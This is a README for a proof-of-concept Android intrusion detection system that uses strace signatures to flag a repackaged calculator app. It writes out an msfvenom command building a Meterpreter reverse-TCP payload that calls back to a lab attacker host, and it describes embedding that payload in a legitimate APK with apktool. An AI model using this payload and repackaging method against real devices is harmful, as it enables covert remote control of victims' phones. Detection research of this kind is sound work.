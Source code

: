 # HIDS_Android: Host-Based Intrusion detection system for Android

## Implementation:

The	main	idea	behind	this	implementation	is	a	proof	of	concept	that	takes	two	same	applications,	
one	legit	and	the other repackaged with a malicious payload (msfvenom). Then,	apply	signature	detection,	basde on	system	calls	to	match	certain	type	of	pattern.	
Enventually,	this	allows	to	detect	or	prevent	some	attack,	in	our	case,	the	execution	of	
meterpreter	commands	through	a	reverse_tcp	shell.	

## Defense environment:

This PoC	relies	on	three	hosts	all	connected	to	the	same	network	172.16.16.0/24:	

- Kali	linux	VM : Acts	as	a	remote	attack	machine,	which	the	reverse	tcp	shell,	
waiting	for	the	malicious	application	to	be	launched.
- Android	x86	VM (Kitkat	4.4):	Acts	as	the	victim	phone/tablet
- Centos	host:	acts	as	the	HIDS	and	connects	remotely	to	the	Androidx86	through	ADB	
(Android	 debug	 bridge)	 to	 launch	 both	 applications	 (legit	 and	 malicious)	 with	 Monkey	 while	
collecting	the	strace (Zigote)	results	to	be	parsed	and	compared	to	the	signatures.

## Repackaging the legit App:

To simulate the repackaging attack,	a new malicious version of the legit app (calculator.apk), has been created	
(com.simplemobiletools.calculator_malicious)	 embedding	 a	 meterpreter	 payload	 know	 as	
android/meterpreter/reverse	tcp.	
Creation of malicious.apk as	below: 

```msfvenom	-p	android/meterpreter/reverse_tcp	LHOST=172.16.16.5	LPORT=6130	-o	malicious.apk```

Decompiling of legit	 version	 com.simplemobiletools.calculator.apk	
along	 with	 the	 malicious.apk,	 to	 finally	 hook	 the	 malicious	 payload	 and	
create	com.simplemobiletools.calculator_malicious.apk	(Tool	used:	apktool). 

#### *Android Desktop with 2 apps*

![Android Desktop with 2 apps](images/android_desktop.png)

## Running the program:

To test Meterpreter	payload	signature, the	server	will	wait	for	an	incoming	connection	to	form	the	reverse_tcp	shell,	and	allow	 the	 attacker	 to	 run	 remote	 command (take a screenshot for example)

#### *MSF reverse_shell*

![MSF reverse_shell](images/reverse_shell.png)

- ### On the Legit App:
```hids_android.py com.simplemobiletools.calculator```

#### *Legit App detection*

![Legit App detection](images/legitapp_normal.png)

- ### On the malicious App:
```hids_android.py com.simplemobiletools.calculator```

Will raise an alarm, without having the remote attacker server ready to handle the reverse shell

#### *Malicious App detection conn attempt*

![Malicious App detection attempt](images/repackapp_conn_attempt.png)


Will now raise an alarm, and kill the application launched, since it detects a reverse shell signature (remote attacker server is ready this time)

#### *Malicious App detection conn detected*

![Malicious App detection detected](images/repackapp_conn_detected.png)

### Future work:

Implement Machine Learning in a supervised way, to train and catch legit pattern.



